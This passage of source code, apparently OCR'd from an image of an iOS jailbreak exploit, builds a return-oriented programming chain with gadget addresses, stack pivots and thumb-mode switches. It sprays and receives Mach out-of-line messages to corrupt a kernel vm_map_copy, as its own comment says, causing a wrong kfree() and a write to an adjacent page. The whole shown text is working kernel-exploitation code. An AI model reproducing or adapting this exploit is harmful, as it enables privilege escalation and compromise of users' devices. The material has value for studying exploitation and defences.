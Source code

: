     StoreR0(PUSH, SEG_VAR(io_service_open_return));
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(io_service_open_return),0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    
#define RecvMsg(push, i, msg) \
LoadIntoR0(PUSH, SEG_VAR(holder[i]));\
StoreR0(PUSH, SEG_VAR(msg.header.msgh_remote_port));\
RopCallFunction9Deref2(PUSH, @"_mach_msg_trap", 4, SEG_VAR(holder[i]), 5, SEG_VAR(zero), SEG_VAR(msg), MACH_RCV_MSG, 0, sizeof(oolmsgrcv_t), 0, 0, 0,0,0)
    
#define SendMsg(push, i, msg) \
LoadIntoR0(PUSH, SEG_VAR(holder[i]));\
StoreR0(PUSH, SEG_VAR(msg.header.msgh_remote_port));\
RopCallFunction3(PUSH, @"_mach_msg_trap", SEG_VAR(msg), MACH_SEND_MSG, sizeof(oolmsg_t))
    
    /* read-out corrupted vm_map_copy, causing wrong kfree() & write to adjacent page */
    
    for (int i = 450; i < 500; i++) {
        if (i != 480) {
            WriteWhatWhere(PUSH, 0, SEG_VAR(oflow_msg.desc.address));
            RecvMsg(PUSH, i, oflow_msg);
            StoreR0(PUSH, SEG_VAR(tmp1));
            
            PUSH = pop_r4r7pc; // PC
            uint32_t* wcmpl = stack;
            PUSH = 0; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            
            uint32_t send_1024_cont = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0x44444444; // R4
            PUSH = m_m_scratch; // R7
            SendMsg(PUSH, i, oolmsg_template);
            PUSH = pop_r4r7pc; // PC
            uint32_t* wcont = stack;
            PUSH = 0; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            
            uint32_t send_2048_break = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0x44444444; // R4
            PUSH = m_m_scratch; // R7
            LoadIntoR0(PUSH, SEG_VAR(holder[i]));
            StoreR0(PUSH, SEG_VAR(holder[overlap_port]));
            SendMsg(PUSH, i, oolmsg_template_2048);
            
            [dy setSlide:dy.slide+1]; // enter thumb
            RopCallFunction9Deref1(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 0,SEG_VAR(msga),0,0,0,0,0,0,0);
            [dy setSlide:dy.slide-1]; // exit thumb
            
            WriteWhatWhere(PUSH,0,SEG_VAR(holder[i]));
            
            RopCallFunction9Deref2(PUSH, @"__kernelrpc_mach_port_allocate_trap", 0, SEG_VAR(mach_task_self), 5, SEG_VAR(zero), 0, MACH_PORT_RIGHT_RECEIVE, SEG_VAR(holder[i]), 0, 0, 0, 0, 0, 0);
            RopCallFunction9Deref3(PUSH, @"__kernelrpc_mach_port_insert_right_trap", 0, SEG_VAR(mach_task_self), 1, SEG_VAR(holder[i]), 2, SEG_VAR(holder[i]), 0, 0, 0, MACH_MSG_TYPE_MAKE_SEND, 0, 0, 0, 0, 0);
            LoadIntoR0(PUSH, SEG_VAR(holder[i]));
            StoreR0(PUSH, SEG_VAR(oolmsg_template.header.msgh_remote_port));
            RopCallFunction3(PUSH, @"_mach_msg_trap", SEG_VAR(oolmsg_template), MACH_SEND_MSG, sizeof(oolmsg_t));
            SendMsg(PUSH, i, oolmsg_template);
            